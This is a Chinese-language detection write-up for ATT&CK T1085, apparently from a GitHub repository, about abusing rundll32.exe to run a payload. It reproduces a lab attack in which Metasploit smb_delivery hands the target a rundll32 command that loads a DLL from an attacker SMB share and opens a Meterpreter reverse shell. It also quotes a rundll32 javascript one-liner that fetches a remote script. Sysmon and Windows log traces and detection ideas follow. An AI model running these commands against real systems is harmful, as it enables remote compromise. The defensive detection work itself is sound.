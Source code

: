 # T1085-win-基于白名单Rundll32.exe执行payload

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。

说明：Rundll32.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Rundll32调用。

windows 2003默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

win7默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/windows/smb/smb_delivery
msf5 exploit(windows/smb/smb_delivery) > set srvhost 192.168.126.146
srvhost => 192.168.126.146
msf5 exploit(windows/smb/smb_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Started service listener on 192.168.126.146:445
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

#### 靶机执行payload

```cmd
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

#### 反弹shell

```bash
msf5 exploit(windows/smb/smb_delivery) > [*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49381) at 2020-04-17 15:24:05 +0800
msf5 exploit(windows/smb/smb_delivery) > sessions

Active sessions
===============

  Id  Name  Type                     Information                         Connection
  --  ----  ----                     -----------                         ----------
  1         meterpreter x86/windows  12306Br0-PC\12306Br0 @ 12306BR0-PC  192.168.126.146:4444 -> 192.168.126.149:49381 (192.168.126.149)
msf5 exploit(windows/smb/smb_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

sysmon日志记录

```log
EVentID: 1
Image: C:\Windows\SysWOW64\rundll32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe  \\192.168.126.146\huwSj\test.dll,0
```

win7安全日志记录

```log
EVentID: 4688
进程信息:
新进程 ID: 0xa30
新进程名: C:\Windows\SysWOW64\rundll32.exe

EVentID: 5158
应用程序信息:
进程 ID: 2608
应用程序名称: \device\harddiskvolume2\windows\syswow64\rundll32.exe

EVentID: 5156 #Windows 筛选平台已允许连接。
应用程序信息:
进程 ID:2608
应用程序名称: \device\harddiskvolume2\windows\syswow64\rundll32.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49381
目标地址: 192.168.126.146
目标端口: 4444
```

## 检测规则/思路

无具体检测规则。事实上在windows server 2008以上版本可对进程命令行进行监控。windows server 2008以下建议通过部署sysmon来进行监控，也可以根据多事件关联分析。

通过进程监控来检测和分析rundll32.exe的执行和参数。比较rundll32.exe的近期调用与历史已知合法参数及已加载动态链接库来确定是否有异常和潜在的攻击活动。在rundll32.exe调用之前和之后使用的命令参数也可用于确定正在加载的动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1085

<https://attack.mitre.org/techniques/T1085/>

windows下基于白名单获取shell的方法整理（上）

<http://www.safe6.cn/article/155>
